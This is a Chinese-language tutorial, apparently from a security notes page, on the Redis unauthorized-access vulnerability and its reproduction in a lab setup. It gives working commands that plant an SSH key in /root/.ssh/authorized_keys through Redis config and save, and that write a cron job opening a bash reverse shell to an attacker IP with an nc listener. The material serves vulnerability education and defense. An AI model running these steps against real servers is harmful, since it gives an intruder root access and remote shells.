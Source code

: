 ```yaml
---
sort: 5
---
```


# redis 未授权访问漏洞

## 什么是 Redis 未授权访问漏洞？

Redis 在默认情况下，会绑定在`0.0.0.0:6379`。如果没有采取相关的安全策略，比如添加防火墙规则、避免其他非信任来源 IP 访问等，这样会使 Redis 服务完全暴露在公网上。如果在没有设置密码认证(一般为空)的情况下，会导致任意用户在访问目标服务器时，可以在未授权的情况下访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的 config 命令，可以进行文件的读写等操作。攻击者可以成功地将自己的 ssh 公钥写入到目标服务器的 `/root/.ssh`文件夹下的`authotrized_keys`文件中，进而可以使用对应地私钥直接使用 ssh 服务登录目标服务器。

简单来讲，我们可以将漏洞的产生归结为两点:

> - redis 绑定在 `0.0.0.0:6379`，且没有进行添加防火墙规则、避免其他非信任来源 IP 访问等相关安全策略，直接暴露在公网上

> - 没有设置密码认证(一般为空)，可以免密码远程登录 redis 服务

漏洞可能产生的危害:

> - 攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以通过恶意执行 flushall 来清空所有数据

> - 攻击者可通过 EVAL 执行 lua 代码，或通过数据备份功能往磁盘写入后门文件

> - 如果 Redis 以 root 身份运行，黑客可以给 root 账户写入 SSH 公钥文件，直接通过 SSH 登录受害者服务器

## 复现漏洞利用场景

1. 假设 Ubuntu 为虚拟机 A，Kali Linux 为虚拟机 B。虚拟机 A(192.168.152.133)为受害者的主机，虚拟机 B（192.168.152.131）为攻击者的主机.
2. 在攻击机中 B 生成 ssh 公钥，密码设置为空。公钥保存在`/home/username/.ssh`中

```
ssh-keygen -t rsa
```

3. 将公钥保存到另一个文件中：

```
# 开头结尾的两个换行是必须的
(echo -e "\n\n";cat id_rsa.pub; echo -e "\n\n") > kitty.txt
```

4. 将`kitty.txt`写入 redis 服务器

```
cat kitty.txt | redis-cli -h 192.168.152.133 -x set crack
```

我们使用-h 参数来指定远程 Redis 服务器 IP，这样 redis-cli 就可以进行连接并发送命令。-x 参数后的语句意思是，设置 redis 中 s-key 密钥的值为 kitty.txt。

5. 远程登录主机 A 的 redis 服务:redis-cli -h 192.168.0.146 并使用`config get dir`命令得到 redis 备份的路径

```
root@kali:~/.ssh# redis-cli -h 192.168.152.133
192.168.152.133:6379> config get dir
1) "dir"
2) "/home/python/.ssh"
```

6. 更改 redis 备份路径为 ssh 公钥存放目录（一般默认为`/root/.ssh`）：

```
config set dir /root/.shh
```

7. 设置备份文件名为`authotrized_keys`并保存，至此我们已经将攻击机的 ssh 公钥写入了靶机中

```
192.168.152.133:6379> config set dbfilename authorized_keys
OK
192.168.152.133:6379> config get dbfilename
1) "dbfilename"
2) "authorized_keys"
192.168.152.133:6379> save
OK
192.168.152.133:6379> exit
```

8. 使用 ssh 证书登录靶机：

```
root@kali:~/.ssh# ssh -i id_rsa root@192.168.152.133
```

## 利用计划任务反弹 shell

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell

先在自己的服务器上监听一个端口

```
nc -lvnp 7999
```

然后执行命令:

    root@kali:~# redis-cli -h 192.168.63.130
    192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
    OK
    192.168.63.130:6379> config set dir /var/spool/cron/
    OK
    192.168.63.130:6379> config set dbfilename root
    OK
    192.168.63.130:6379> save
    OK
